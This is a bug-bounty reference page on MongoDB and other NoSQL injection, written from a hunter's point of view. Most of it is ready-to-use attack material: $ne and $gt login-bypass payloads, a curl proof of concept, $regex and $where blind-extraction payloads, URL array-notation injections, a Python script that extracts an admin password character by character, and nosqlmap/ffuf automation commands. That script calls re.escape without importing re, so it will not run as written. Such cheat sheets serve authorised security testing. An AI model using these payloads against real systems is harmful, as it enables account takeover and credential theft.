

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/NoSQLi

# NoSQL Injection

MongoDB is everywhere, and MongoDB operator injection is consistently underreported. The concept is the same as SQLi  -  inject control characters or operators into a query  -  but the syntax is JSON-based. Most devs don't parameterize MongoDB queries the way they parameterize SQL, and `$gt`, `$ne`, and `$regex` operators do a lot of work for me.

## How MongoDB Queries Work

```javascript
// Normal login query
db.users.findOne({ username: "admin", password: "correcthorsebattery" })
 
// Vulnerable  -  user controls the query object directly
db.users.findOne({ username: req.body.username, password: req.body.password })
```

If the app parses JSON body input and passes it directly to the query, I control the operator.

## Operator Injection

### Authentication Bypass  -  `$ne` (not equal)

```json
// Normal POST body
{"username": "admin", "password": "test"}
 
// Injected  -  "password is not equal to anything_impossible" = always true
{"username": "admin", "password": {"$ne": "anything_impossible"}}
 
// Both fields
{"username": {"$ne": null}, "password": {"$ne": null}}
 
// Returns first user in the collection  -  often admin
```

```bash
# curl PoC
curl -s -X POST https://target.com/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": {"$ne": "x"}}'
```

### `$gt`  -  Greater Than

```json
{"username": "admin", "password": {"$gt": ""}}
```

Empty string  -  any password is greater than empty string. Auth bypass.

### `$regex`  -  Pattern Matching for Data Extraction

```json
// Does admin's password start with 'a'?
{"username": "admin", "password": {"$regex": "^a"}}
 
// Binary search  -  password starts with 'a', then 'ab', etc.
{"username": "admin", "password": {"$regex": "^ab"}}
{"username": "admin", "password": {"$regex": "^abc"}}
```

True condition = login succeeds (200). False condition = login fails (401). Boolean blind extraction.

### `$in`  -  Match Against Array

```json
// Check if password is one of these  -  useful for common password testing
{"username": "admin", "password": {"$in": ["password", "admin", "123456"]}}
```

### `$where`  -  JavaScript Execution (Critical)

If the app uses `$where` with user input  -  or you can inject it:

```json
{"$where": "this.username == 'admin' && this.password == 'test'"}
 
// Sleep-based detection (time oracle)
{"$where": "function(){var d = new Date(); while(new Date() - d < 5000){}; return true;}"}
 
// Data exfil via timing
{"$where": "if(this.password.match(/^a/)){var d=new Date();while(new Date()-d<5000);return true;}else{return false;}"}
```

## URL Parameter Injection

When the app uses GET params to build MongoDB queries, you can inject operators via array notation:

```bash
# Normal request
GET /api/users?username=admin
 
# Injected  -  PHP/Node parse array syntax into object
GET /api/users?username[$ne]=notadmin
GET /api/users?username[$regex]=admin.*
GET /api/users?password[$gt]=
 
# Some frameworks require explicit JSON
GET /api/users?filter={"username":{"$ne":null}}
```

## Aggregation Pipeline Injection

More complex apps use the aggregation pipeline. If user input flows into `$match`:

```javascript
// Vulnerable aggregation
db.users.aggregate([
  { $match: { username: userInput } }
])
 
// Inject an always-true condition
{ username: { $exists: true } }
```

## Data Extraction  -  Regex Binary Search

Full password extraction via `$regex` timing:

```python
import requests
import string
 
url = "https://target.com/login"
 
def check(regex_pattern):
    r = requests.post(url, json={
        "username": "admin",
        "password": {"$regex": regex_pattern}
    })
    return r.status_code == 200  # or check for "Welcome" in response
 
# Extract password character by character
password = ""
charset = string.ascii_letters + string.digits + string.punctuation
 
for i in range(1, 30):  # max password length
    for char in charset:
        # Escape regex special chars
        escaped = char.replace('\\', '\\\\').replace('.', '\\.').replace('+', '\\+')
        pattern = f"^{re.escape(password + char)}"
        if check(pattern):
            password += char
            print(f"[+] Password so far: {password}")
            break
    else:
        print(f"[+] Final password: {password}")
        break
```

## Detection  -  What to Look For



### Quick Detection Payloads

```bash
# In JSON bodies
{"username": "admin'\"", "password": "test"}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
 
# In URL params
?username[$ne]=x
?username[$gt]=
?username[$regex]=.*
 
# MongoDB error indicators
"$err"
"errmsg"
"BSONObj size"
"Mod on _id not allowed"
```

## nosqlmap / noSQLMap Automation

```bash
# nosqlmap
python nosqlmap.py -u "https://target.com/login" --attack=2 --httpmethod=POST \
  --postdata='{"username":"INJECT","password":"test"}' --injectedparam=username
 
# Manual with ffuf for quick operator test
ffuf -u "https://target.com/login" -X POST \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"FUZZ"}' \
  -w nosqli-operators.txt -mc 200
```

## MongoDB vs Other NoSQL Dbs

| DB | Injection Approach |
| --- | --- |
| MongoDB | Operator injection (`$ne`, `$gt`, `$regex`, `$where`) |
| CouchDB | HTTP API  -  `?selector={"$gt":null}` via Mango query |
| Redis | Command injection via RESP protocol (different attack surface) |
| Elasticsearch | Query DSL injection  -  `{"query":{"match_all":{}}}` override |
| Firebase | Insecure rules  -  `.read` / `.write` set to `true` |

## Public Reports

- MongoDB operator injection via $ne bypasses authentication on login endpoint - [HackerOne #1047447](https://hackerone.com/reports/1047447)
- NoSQLi via $regex allows blind extraction of all user passwords character by character - [HackerOne #1024758](https://hackerone.com/reports/1024758)
- URL parameter array injection into MongoDB query allows auth bypass - [HackerOne #894307](https://hackerone.com/reports/894307)
- $where JavaScript execution in MongoDB query leads to server-side timing oracle - [HackerOne Hacktivity search](https://hackerone.com/hacktivity?querystring=nosql+injection+mongodb)

## Related

- [SQLi Overview](../../../SQLi/)
- [SSTI](../../../Attack-Surface/Web/Injection/SSTI)
- [Host Header](../../../Attack-Surface/Web/Injection/Host-Header)
